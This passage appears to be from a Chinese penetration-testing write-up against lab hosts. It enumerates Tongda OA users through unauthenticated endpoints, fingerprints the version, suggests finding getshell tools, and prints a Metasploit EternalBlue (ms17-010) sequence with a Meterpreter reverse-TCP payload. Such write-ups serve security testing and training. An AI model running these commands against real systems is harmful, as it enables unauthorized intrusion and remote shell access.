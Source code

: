 ![image-20220307164753728](https://gitee.com/xxb667/img/raw/master/img/image-20220307164753728.png)

```
http://192.168.1.19/general/search.php
```

```
[ { "id": "chenchangliu", "label": "陈长流", "value": "陈长流" }, { "id": "chenfeifei", "label": "陈飞飞", "value": "陈飞飞" }, { "id": "chenqiang", "label": "陈强", "value": "陈强" }, { "id": "liumingcai", "label": "刘明才", "value": "刘明才" }, { "id": "naideshi", "label": "念得失", "value": "念得失" }, { "id": "wangwu", "label": "王舞", "value": "王舞" }, { "id": "wuhai", "label": "吴海", "value": "吴海" }, { "id": "yinyunfei", "label": "伊云飞", "value": "伊云飞" }, { "id": "zhangshan", "label": "张山", "value": "张山" }, { "id": "changbai", "label": "常白", "value": "常白" }, { "id": "__SEARCH_HELP__", "label": "搜索在线帮助", "value": "" } ]
```

```
http://192.168.1.19/general/pass.php
```

![image-20220307164858398](https://gitee.com/xxb667/img/raw/master/img/image-20220307164858398.png)

## 

## 2.2 通达OA版本识别

  

```
http://192.168.1.21/inc/expired.php
```

- 通达OA 漏洞非常多，
- 漏洞探测可以直接搜对应的版本号相关的漏洞  
- 例如 
  - 搜 `通达OA11.3漏洞利用`
  - 或者找对应的工具直接getshell

![image-20220309135638658](https://gitee.com/xxb667/img/raw/master/img/image-20220309135638658.png)

## 2.3 永恒之蓝探测

直接metasploit 扫描，发现存在漏洞 这里就不展示永恒之蓝了

```
msfconsole
search ms17-010  #查找模块
use 0
set payload windows/x64/meterpreter/reverse_tcp
set RHOSTS 192.168.1.21
run
```

![image-20220309142737544](https://gitee.com/xxb667/img/raw/master/img/image-20220309142737544.png)

查看系统信息
